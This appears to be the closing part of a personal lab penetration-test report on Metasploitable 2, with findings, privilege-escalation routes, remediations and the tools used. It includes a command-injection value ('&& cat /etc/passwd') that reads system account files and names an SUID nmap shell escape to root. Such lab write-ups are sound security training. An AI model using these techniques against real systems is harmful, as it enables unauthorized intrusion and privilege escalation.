✅ **Full `/etc/passwd` exposed** in the browser. In a real attack, this vector could be used to spawn a reverse shell, exfiltrate data, or pivot further into the network.

#### Evidence

**Baseline ping — normal command execution:**


*Normal `ping 10.1.184.240` output shown in browser — confirms direct command execution*

---

**Injected command — `/etc/passwd` dumped in browser:**


*`10.1.184.240 && cat /etc/passwd` — full `/etc/passwd` rendered in browser, exposing all system accounts including root, postgres, mysql, tomcat55, msfadmin*

---

## 📈 Privilege Escalation Summary

| Entry Point | Initial User | Escalation Method | Final Access |
|-------------|-------------|-------------------|--------------|
| PostgreSQL RCE | `postgres` | SUID `nmap --interactive` → `!sh` | ✅ **root** |
| UnrealIRCd Backdoor | `root` (direct) | None required | ✅ **root** |
| VNC | `root` (direct) | None required — service runs as root | ✅ **root** |
| Tomcat Manager | `tomcat55` | — (further escalation not pursued) | ⚠️ tomcat55 |
| Telnet | `msfadmin` | `sudo su` (unrestricted sudo via admin group) | ✅ **root** |

---

## 📋 Findings Summary

| # | Vulnerability | Service | Port | Severity | Root? |
|---|--------------|---------|------|----------|-------|
| 1 | PostgreSQL RCE — Default Credentials | PostgreSQL | 5432 | 🔴 Critical | ✅ Yes |
| 2 | UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075) | IRC | 6667 | 🔴 Critical | ✅ Yes |
| 3 | VNC Weak/Default Password | VNC | 5900 | 🔴 Critical | ✅ Yes |
| 4 | Tomcat Manager WAR Upload (CVE-2009-3843) | HTTP/Tomcat | 8180 | 🔴 Critical | ⚠️ No |
| 5 | Telnet Default Credentials + Plaintext | Telnet | 23 | 🔴 Critical | ✅ Yes |
| 6 | SQL Injection — UNION-based DB Dump | DVWA/MySQL | 80 | 🔴 Critical | ⚠️ DB |
| 7 | Stored + Reflected XSS | DVWA | 80 | 🟠 High | ⚠️ No |
| 8 | OS Command Injection — `/etc/passwd` Exposed | DVWA | 80 | 🔴 Critical | ⚠️ No |

**5 of 8 vulnerabilities resulted in full root compromise.**

---

## 🛡️ Recommendations

| # | Finding | Recommendation | Priority |
|---|---------|---------------|----------|
| 1 | Default credentials across all services | Enforce unique, strong passwords for all services. Disable or change defaults immediately on deployment. | 🔴 Critical |
| 2 | UnrealIRCd backdoor | Update to a verified, patched version. Always verify software integrity using checksums/signatures before deployment. | 🔴 Critical |
| 3 | Telnet in use | **Disable Telnet entirely.** Replace with SSH (encrypted). Telnet sends all data including passwords in plaintext. | 🔴 Critical |
| 4 | VNC exposed with weak auth | Restrict VNC access with firewall rules (allow specific IPs only). Enforce strong VNC passwords or switch to NX/SSH tunnelled VNC. | 🔴 Critical |
| 5 | Tomcat Manager exposed | Restrict `/manager` to localhost or internal IPs only. Change default credentials. Consider disabling if not needed. | 🔴 Critical |
| 6 | SQL Injection | Use **parameterised queries / prepared statements** exclusively. Never concatenate user input into SQL. Implement a WAF as an additional layer. | 🔴 Critical |
| 7 | Stored/Reflected XSS | **Sanitise all input** server-side. **Encode all output** before rendering. Implement Content Security Policy (CSP) headers. | 🟠 High |
| 8 | OS Command Injection | **Never pass user input to system calls.** Use safe language APIs. Whitelist allowed values. Implement input validation. | 🔴 Critical |
| 9 | SUID binary abuse | Audit and minimise SUID binaries. Remove the SUID bit from `nmap`: `sudo chmod -s /usr/bin/nmap`. Review all binaries with `find / -perm -4000`. | 🔴 Critical |

---

## 🧰 Tools Used

| Tool | Version / Notes | Purpose |
|------|----------------|---------|
| **Metasploit Framework** | v6.4.103-dev | Primary exploitation framework |
| **nmap** | v4.53 (target SUID binary) | Network scanning + privilege escalation vector |
| **vncviewer** (TightVNC) | Standard Kali build | GUI desktop access via VNC |
| **telnet** | Standard Kali build | Telnet service testing with default credentials |
| **Firefox** | Standard Kali build | Web application testing (DVWA) |
| **Kali Linux** | Rolling release | Attacker OS — full pentest toolset |

---

## ✅ Conclusion

This VAPT exercise against Metasploitable 2 demonstrated how a **layered combination of default credentials, unpatched software, supply-chain backdoors, and missing input validation** creates a system that is trivially compromised through multiple independent paths.

### Key Takeaways

| Lesson | Detail |
|--------|--------|
| **Default credentials are critical risk** | 4 of 8 vulnerabilities were directly enabled by unchanged default passwords |
| **Unpatched software is immediately exploitable** | UnrealIRCd backdoor (2010) remained live — a 16-year-old vulnerability |
| **Insecure protocols amplify risk** | Telnet transmits credentials in plaintext, making credential capture trivial on the same network |
| **Web app input validation is non-negotiable** | SQLi, XSS, and CMDi all stem from the same root cause: trusting user input |
| **Privilege escalation is often trivial** | SUID binaries and unrestricted sudo are frequently overlooked but high-impact |

### Final Impact Statement

An attacker with network access to this system would achieve **complete root-level control in under 5 minutes** using publicly known exploits and default credentials — with no advanced techniques required. This underscores why even basic security hygiene (credential management, patch management, input validation) has an outsized impact on overall security posture.

---

<div align="center">

*This report was generated as part of a personal cybersecurity learning project.*  
*All testing was conducted in an isolated virtual lab environment — no real systems were targeted or harmed.*

**Author: Santosh Bathala | April 2026**

</div>
